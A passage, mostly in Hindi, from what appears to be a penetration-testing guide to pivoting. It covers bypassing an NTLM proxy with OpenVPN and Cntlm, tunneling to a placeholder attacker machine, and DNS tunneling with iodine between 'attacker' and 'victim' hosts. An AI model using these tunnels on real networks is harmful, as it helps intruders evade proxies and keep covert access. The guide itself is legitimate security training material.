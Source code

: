 ## NTLM प्रॉक्सी बायपास

पहले उल्लेखित उपकरण: **Rpivot**\
**OpenVPN** भी इसे बायपास कर सकता है, कॉन्फ़िगरेशन फ़ाइल में ये विकल्प सेट करके:
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

यह एक प्रॉक्सी के खिलाफ प्रमाणीकरण करता है और एक पोर्ट को स्थानीय रूप से बाइंड करता है जो आपके द्वारा निर्दिष्ट बाहरी सेवा की ओर अग्रेषित होता है। फिर, आप इस पोर्ट के माध्यम से अपनी पसंद के उपकरण का उपयोग कर सकते हैं।\
उदाहरण के लिए, वह पोर्ट 443 को अग्रेषित करें।
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
अब, यदि आप उदाहरण के लिए पीड़ित में **SSH** सेवा को पोर्ट 443 पर सुनने के लिए सेट करते हैं। आप इसे हमलावर पोर्ट 2222 के माध्यम से कनेक्ट कर सकते हैं।\
आप एक **meterpreter** का भी उपयोग कर सकते हैं जो localhost:443 से कनेक्ट होता है और हमलावर पोर्ट 2222 पर सुन रहा है।

## YARP

Microsoft द्वारा बनाया गया एक रिवर्स प्रॉक्सी। आप इसे यहाँ पा सकते हैं: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

दोनों सिस्टम में रूट की आवश्यकता होती है ताकि टन एडाप्टर बनाए जा सकें और DNS क्वेरी का उपयोग करके उनके बीच डेटा टनल किया जा सके।
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
The tunnel will be very slow. You can create a compressed SSH connection through this tunnel by using:  
टनल बहुत धीमा होगा। आप इस टनल के माध्यम से एक संकुचित SSH कनेक्शन बना सकते हैं:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2
